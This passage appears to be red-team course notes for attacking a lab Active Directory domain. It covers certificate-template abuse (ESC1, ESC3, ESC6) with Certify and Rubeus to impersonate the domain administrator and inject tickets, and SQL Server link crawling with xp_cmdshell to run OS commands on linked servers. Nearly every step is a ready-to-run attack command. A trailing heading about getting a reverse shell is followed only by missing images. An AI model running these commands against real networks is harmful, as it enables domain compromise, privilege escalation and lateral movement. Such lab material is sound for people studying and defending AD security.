* Convert from cert.pem to pfx (esc3agent.pfx below) and use it to request a certificate on behalf of EA using the "SmartCardEnrollment-Users" template

```
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorpMCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:moneycorp.local\administrator /enrollcert:esc3agent.pfx /enrollcertpw:SecretPass@123
```

* Request EA TGT and inject it -

```
Rubeus.exe asktgt /user:moneycorp.local\administrator /certificate:esc3user.pfx /dc:mcorp-dc.moneycorp.local /password:SecretPass@123 /ptt
```

### ADSC - ESC6

* The CA in moneycorp has EDITF\_ATTRIBUTESUBJECTALTNAME2 flag set. This means that we can request a certificate for ANY user from a template that allow enrollment for normal/low-privileged users.

```
Certify.exe find
```

* The template "CA-Integration" grants enrollment to the RDPUsers group. Request a certificate for DA (or EA) as studentx

```
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DCCA /template:"CA-Integration" /altname:administrator
```

* Convert from cert.pem to pfx (esc6.pfx below) and use it to request a TGT for DA (or EA).

```
Rubeus.exe asktgt /user:administrator /certificate:esc6.pfx /password:SecretPass@123 /ptt
```

### ADSC - ESC1

* The template "HTTPSCertificates" has ENROLLEE\_SUPPLIES\_SUBJECT value for msPKI-Certificates-Name-Flag.

```
Certify.exe find /enrolleeSuppliesSubject
```

* The template "HTTPSCertificates" allows enrollment to the RDPUsers group. Request a certificate for DA (or EA) as studentx

```
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DCCA /template:"HTTPSCertificates" /altname:administrator
```

* Convert from cert.pem to pfx (esc1.pfx below) and use it to request a TGT for DA (or EA).

```
Rubeus.exe asktgt /user:administrator /certificate:esc1.pfx /password:SecretPass@123 /ptt
```

### MSSQL Servers - Trust Abuse

* MS SQL servers are generally deployed in plenty in a Windows domain
* SQL Servers provide very good options for lateral movement as domain users can be mapped to database roles.
* For MSSQL and PowerShell hackery, lets use PowerUpSQL - https://github.com/NetSPI/PowerUpSQL
* Discovery (SPN Scanning)

```
Get-SQLInstanceDomain
```

* Check Accessibility

```
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

* Gather Information

```
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

### MSSQL Servers - Database Links  - Trust Abuse

A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources.

In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures

Database links work even across forest trusts.

Searching Database Links -->

* Look for links to remote servers

```
Get-SQLServerLink -Instance dcorp-mssql -Verbose
Or
select * from master..sysservers
```

Enumerating Database Links - Manually -->

* Openquery() function can be used to run queries on a linked database

```
select * from openquery("dcorp-sql1",'select * from master..sysservers')
```

Enumerating Database Links -->

```
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
```

OR

Openquery queries can be chained to access links within links (nested links)

```
select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from master..sysservers'')')
```

Executing Commands -->

* On the target server, either xp\_cmdshell should be already enabled; or
* If rpcout is enabled (disabled by default), xp\_cmdshell can be enabled using -

```
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
```

* Use the -QuertyTarget parameter to run Query on a specific instance (without -QueryTarget the command tries to use xp\_cmdshell on every link of the chain)

```
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "execmaster..xp_cmdshell 'whoami'" -QueryTarget eu-sql
```

* From the initial SQL server, OS commands can be executed using nested link queries -

```
select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```

**Getting reverse shell from eu-sql database server link -**

.png>)

.png>)
